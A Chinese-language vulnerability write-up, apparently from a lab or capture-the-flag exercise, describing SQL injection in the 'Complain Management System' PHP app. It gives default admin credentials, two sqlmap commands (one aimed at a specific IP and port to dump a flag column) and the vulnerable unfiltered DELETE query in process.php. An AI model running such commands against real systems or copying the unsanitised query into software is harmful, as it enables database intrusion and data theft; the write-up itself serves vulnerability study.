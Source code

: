 # <center>Complain Management System - SQL injection</center> #

<center>![maccms](pictures/complain.png)</center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于Complain Management System在登陆后某处没有对参数过滤严格，导致sql注入。
* 影响版本： NOT Supplied

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;Complain Management System是在线用户反馈平台。

&emsp;&emsp;该漏洞主要的产生原因是未做过滤导致的sql注入。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先们看一下如何利用这个漏洞，打开ip:port  

<center>![codiad](pictures/1.png)</center>


&emsp;&emsp;输入`admin`/`admin123`选择`Administrator`点击`Login Now`进入系统。  

<center>![codiad](pictures/2.png)</center>


访问`ip:port/process.php?action=deleteCust&cId=123`会发现跳转，我们记录下这个地址还有登录过后的cookie值：

<center>![codiad](pictures/3.png)</center>


sqlmap 命令:`sqlmap -u "http://ip:port/process.php?action=deleteCust&cId=123" --cookie="PHPSESSID=t1bc9vj67odrj3bd096g0rffe0"`得出目标存在注入：  

<center>![codiad](pictures/4.png)</center>

sqlmap 命令: `sqlmap -u "http://218.2.197.232:25278/process.php?action=deleteCust&cId=123" --cookie="PHPSESSID=t1bc9vj67odrj3bd096g0rffe0" -D complain_db -T flag -C sname --dump`得到flag值。

###源码解析
定位到process.php文件:

```php

function deleteCust()
{
	//echo 'Add Comment on Complain...';
    $cId = $_GET['cId'];
	//$empComment = $_POST['empComment'];
	$sql = "DELETE FROM tbl_customer
				WHERE cid = $cId";
	$result = dbQuery($sql);
	header("Location: view.php?mod=admin&view=custDetails");
	exit;
}

```

可见为对参数为进行过滤，导致sql注入。


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，再导入数据库内容即可。



### 4.3&emsp;漏洞复现（SQLI） ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;添加过滤函数  
